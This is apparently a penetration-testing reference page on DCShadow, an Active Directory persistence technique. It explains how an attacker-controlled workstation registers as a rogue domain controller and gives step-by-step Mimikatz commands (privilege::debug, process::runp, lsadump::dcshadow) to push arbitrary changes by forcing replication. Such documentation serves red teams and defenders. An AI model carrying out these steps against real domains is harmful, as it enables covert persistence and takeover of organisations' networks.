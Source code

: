 ## Theory
The idea behind this persistence technique is to have an attacker-controlled machine act as a domain controller (shadow DC) to push changes onto the domain by forcing other domain controllers to replicate.

There are two requirements for a machine to act as a domain controller:

1. Be registered as a DC in the domain**: this is done by:

    - modifying the computer's SPN (`ServicePrincipalName`) to `GC/$HOSTNAME.$DOMAIN/$DOMAIN`
    - adding an entry like `CN=$HOSTNAME,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=$DOMAIN` with the following attribute values: 
        - `objectClass: server`
        - `dNSHostName: $HOSTNAME.$DOMAIN`
        - `serverReference: CN=$HOSTNAME,CN=Computers,DC=$DOMAIN`

2. Be able to request and/or respond to specific RPC calls: `DRSBind, DRSUnbind, DRSCrackNames, DRSAddEntry, DRSReplicaAdd, DRSReplicaDel, DRSGetNCChanges`.
## Exploit
1. Register the workstation that will act as the shadow DC
    - add the required entry in CN=Configuration
    - modify the workstation's SPN

    **Example**:

    - add entry
    ```bash
    entry: CN=Win10, CN=servers, CN=Default-First-Site-Name, CN=sites, CN=Configuration, DC=test, DC=local
    ```
    - Change SPN
    ```bash
    AttributeValue: GC/Win10.test.local/test.local
    ```

2. Prepare the changes to be pushed onto the domain (with calls to `DRSAddEntry`)

3. Push the changes by forcing another legitimate DC to replicate from the workstation with a `DRSReplicaAdd` call, which automatically makes a `DRSGetNCChanges` call from the legitimate DC to the shadow DC.

4. Unregister the workstation so it is not longer considered to be a DC (by a `DRSReplicaDel` call and by reverting changes made to `CN=Configuration` and the workstation's SPN).
=== "Windows"
    DC Shadow can be performed by using Mimikatz. It works in every 64-bits Windows Server version up to 2022 (included). Everything happens on the workstation that will act as the shadow DC.

    Two Mimikatz shells are required:

        - one with domain admin privileges (called the trigger shell from now on)
        - one as NT-AUTHORITY\SYSTEM (called the RPC shell from now on)

    **Preparing shells**
    ```bash
    # In a mimikatz shell, launched with DA rights
    # This will be the trigger shell
    privilege::debug

    # The following command will open a new mimikatz shell as NT-AUTHORITY\SYSTEM
    # This will be the RPC shell
    process::runp

    # On both shell, run the following command to confirm permissions
    # On the trigger shell, it will return the domain admin account name (used to lauch the first mimikatz shell)
    # On the RPC shell, it will return NT-AUTHORITY\SYSTEM
    token::whoami
    ```

    **Preparing changes to push**
    ```bash
    # (RPC shell)
    lsadump::dcshadow /object:ObjectToModify /attribute:AttributeToModifyOnTargetedObject /value:NewValueOfTargetedAttribute
    ```

    **Pushing changes**
    ```bash
    # (Trigger shell)
    # The command below will register the shadow DC, push the changes, and unregister
    lsadump::dcshadow /push
    ```
